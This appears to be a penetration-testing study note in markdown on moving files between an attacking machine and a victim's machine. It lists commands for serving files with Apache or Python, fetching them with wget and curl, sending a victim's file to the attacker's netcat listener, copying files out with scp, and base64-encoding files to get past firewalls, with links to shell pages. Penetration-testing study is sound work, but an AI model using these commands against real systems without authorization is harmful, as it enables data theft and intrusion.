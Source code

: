 ```yaml
---
title: Transferring files techniques
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - server
  - backdoors
---
```


# Transferring files techniques

## Replicating client-server

### Setting up a server in the attacking machine 

#### Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
service apache2 start
```


#### Simple python server


```shell-session
cd /tmp
python3 -m http.server 8000
```


### Retrieving files from victim's machine

#### wget

```shell-session
wget http://<SERVERIP>:<SERVERPORT>/<file>
```

#### curl

```shell-session
curl http://http://<SERVERIP>:<SERVERPORT>/<file> -o <OutputNameForFile>
```



## Netcat

### Printing information on screen

On the server side (attacking machine):

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side (victim's machine):

```bash
echo “hello” | nc -v $ip <port>
```

###  Transfer data and save it in a file with netcat

On the server side (attacking machine):

```bash
# Data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side (victim's machine):

```bash
cat tobesentfiel.txt | nc -v $ip <port>
```


## Using SCP

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

```shell-session
# Download file foobar.txt in attacker machine from a remote host (victim's machine)
scp username@IPvictim:foobar.txt /some/local/directory

# Upload file foo.txt from attacker machine to a remote host (victim's machine)
scp foo.txt username@IPvictim:/some/remote/directory
```

## Base64

To avoid firewall protections we can:

**1.** Base64 encode the file:

```shell-session
base64 file.php -w 0
```

**2.** Copy the base64 string, go to the remote host and decode it and pipe to a file:

```shell-session
echo "Looooooong-string-encoded-in-base64" | base64 -d > file.php
```


## 

 
## Backdoors

See [reverse shells](reverse-shells.md), [bind shells](bind-shells.md), and [web shells](web-shells.md).



